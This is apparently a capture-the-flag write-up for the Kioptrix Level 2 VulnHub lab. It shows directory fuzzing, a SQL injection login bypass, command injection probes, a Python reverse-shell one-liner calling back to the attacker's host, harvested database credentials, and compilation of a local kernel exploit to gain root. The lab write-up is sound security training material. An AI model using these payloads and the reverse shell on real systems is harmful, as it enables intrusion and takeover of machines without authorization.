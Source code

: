 # Recon
## TCP/80 - HTTP
### FFUF
```
┌──(root💀kali)-[~/vulnHub/kioptrix2/192.168.1.102]
└─# ffuf -u http://192.168.1.102/FUZZ -w /usr/share/wordlists/dirb/common.txt -e ".html,.txt,.php" -fw 21

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://192.168.1.102/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/common.txt
 :: Extensions       : .html .txt .php 
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
 :: Filter           : Response words: 21
________________________________________________

                        [Status: 200, Size: 667, Words: 35, Lines: 32]
index.php               [Status: 200, Size: 667, Words: 35, Lines: 32]
manual                  [Status: 301, Size: 315, Words: 20, Lines: 10]
:: Progress: [18460/18460] :: Job [1/1] :: 8158 req/sec :: Duration: [0:00:03] :: Errors: 0 ::
```

## TCP/80 - HTTPS
### FFUF
- Same as TCP/80


# Initial Foothold
## TCP/80 - HTTP - SQLi + Command Injection
1. Proceed to `/manual`
	- Default Apache Documentation
2. Proceed to `/index.php`
	![](images/Pasted%20image%2020220123170339.png)
3. Attempt SQLi Auth Bypass
	```
	# OR 1=1#
	```
	![](images/Pasted%20image%2020220123170557.png)
4. Attempt Command Injection
	```
	`id`
	;id
	```
	![](images/Pasted%20image%2020220123170705.png)
5. Execute Reverse Shell
	```
	;python -c 'a=__import__;s=a("socket").socket;o=a("os").dup2;p=a("pty").spawn;c=s();c.connect(("192.168.1.1",4444));f=c.fileno;o(f(),0);o(f(),1);o(f(),2);p("/bin/sh")'
	```
6. Obtain apache shell
	```
	┌──(root💀kali)-[~/vulnHub/kioptrix2/192.168.1.102]
	└─# nc -nvlp 4444
	Ncat: Version 7.92 ( https://nmap.org/ncat )
	Ncat: Listening on :::4444
	Ncat: Listening on 0.0.0.0:4444
	Ncat: Connection from 192.168.1.102.
	Ncat: Connection from 192.168.1.102:32778.
	sh-3.00$ whoami
	whoami
	apache
	sh-3.00$ 
	```
	![](images/Pasted%20image%2020220123171406.png)


# Privilege Escalation
## Root - Via Kernel Exploit
1. Check for SQL Credentials, view index.php
		![](images/Pasted%20image%2020220123174519.png)
	- john:hiroshima
2. Access mysql to obtain more creds
	```
	bash-3.00$ mysql -u john -p
	Enter password: hiroshima
	Welcome to the MySQL monitor.  Commands end with ; or \g.
	Your MySQL connection id is 25 to server version: 4.1.22

	Type 'help;' or '\h' for help. Type '\c' to clear the buffer.

	mysql> show databases;
	+----------+
	| Database |
	+----------+
	| mysql    |
	| test     |
	| webapp   |
	+----------+
	
	mysql> use webapp
	Reading table information for completion of table and column names
	You can turn off this feature to get a quicker startup with -A
	
	Database changed
	mysql> show tables;
	+------------------+
	| Tables_in_webapp |
	+------------------+
	| users            |
	+------------------+
	1 row in set (0.00 sec)

	mysql> show columns from users;
	+----------+--------------+------+-----+---------+-------+
	| Field    | Type         | Null | Key | Default | Extra |
	+----------+--------------+------+-----+---------+-------+
	| id       | int(11)      | YES  |     | NULL    |       |
	| username | varchar(100) | YES  |     | NULL    |       |
	| password | varchar(10)  | YES  |     | NULL    |       |
	+----------+--------------+------+-----+---------+-------+
	3 rows in set (0.00 sec)

	mysql> select * from users;
	+------+----------+------------+
	| id   | username | password   |
	+------+----------+------------+
	|    1 | admin    | 5afac8d85f |
	|    2 | john     | 66lajGGbla |
	+------+----------+------------+
	2 rows in set (0.00 sec)
	```
3. Tried to switch user to john w/ obtain creds, failed
4. Ran linpeas
	![](images/Pasted%20image%2020220123174958.png)
5. Find Kernel Exploit
	```
	┌──(root💀kali)-[~/vulnHub/kioptrix2/192.168.1.102/exploit]
	└─# searchsploit 2.6 centos
	 
	Linux Kernel 2.4.x/2.6.x (CentOS 4.8/5.3 / RHEL 4.8/5.3 / SuSE 10 SP2/11 / Ubuntu 
	linux/local/9545.c
	

	```
6. Transfer Exploit
7. Compile & Exploit
	```
	sh-3.00$ gcc 9545.c -o exploit; chmod +x exploit; ./exploit
	gcc 9545.c -o exploit; chmod +x exploit; ./exploit
	9545.c:376:28: warning: no newline at end of file
	sh-3.00# whoami
	whoami
	root
	sh-3.00# cd /root
	cd /root
	sh-3.00# ls
	```
	![](images/Pasted%20image%2020220123180749.png)


---
Tags: #exploit/sqli/auth-bypass #exploit/command-injection #linux-priv-esc/kernel-exploit 

---